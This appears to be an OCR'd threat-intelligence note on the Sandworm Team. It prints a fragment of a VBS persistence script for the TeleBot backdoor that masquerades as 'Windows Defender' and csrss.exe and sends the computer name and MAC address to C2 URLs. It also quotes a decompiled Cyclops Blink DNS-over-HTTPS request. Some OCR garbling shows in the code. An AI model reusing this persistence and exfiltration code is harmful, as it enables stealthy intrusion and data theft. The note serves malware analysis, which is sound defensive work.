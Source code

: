 # Sandworm Team

## Features

1. To prevent the TeleBot backdoor from being deleted, the organization also attached a VBS script to regain access to the target host.

```vbs
?Dim version: version = "6.1.76.5"
'===================== WORK PARAMS =======
Dim timeout:timeout = 21  //Call the server every 21 minutes
Dim bIP:bIP = "IP"  //C2 server IP address
'============= WORK PARAMS =========================
Dim sRequest:sRequest = ""
Dim taskName:taskName = "Windows Defender"
Dim arKey:arKey ="HKCU\Software\Microsoft\Windows\CurrentVersion\Run\csrss.exe"
//Insert Process
'========================WORK PARAMS===========================
Dim pUlrl : pUrl = "https://" + bTP + "/services/nI-nl/power-bi-embedded/wt_mc_id/azuremktg_hp_powerbiembedded"
Dim sendUrl: sendUrl = "https://" + bIP + "/store/mseea/nl_NL/cat/Back-to-School/categoryID_68073200"
Dim htmlUrl:htmlUrl = "https://" + bIP + "/store/mseea/nl_NL/cat/Accessoires/categoryID_66233400?"
//Send computer name and MAC address to C2 server
'================ WORK PARAMS =======================
```

2. Cyclops Blink malware uses DNS over HTTPS to perform DNS resolution, and then uses HTTPS to download files.

```C
j_sprintf(
  vll,
  "PosT /dns-query HTTP/1.1\r\n"
  "Host: dns.google\r\n"
  "User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0\r\n"
  "Accept: application/dns-message\r\n"
  "Content-Type: application/dns-message\r\n"
  "Content-Length: %d\r\n"
  "\r\n",
  v13);
v12=j_strlen(vll);
```
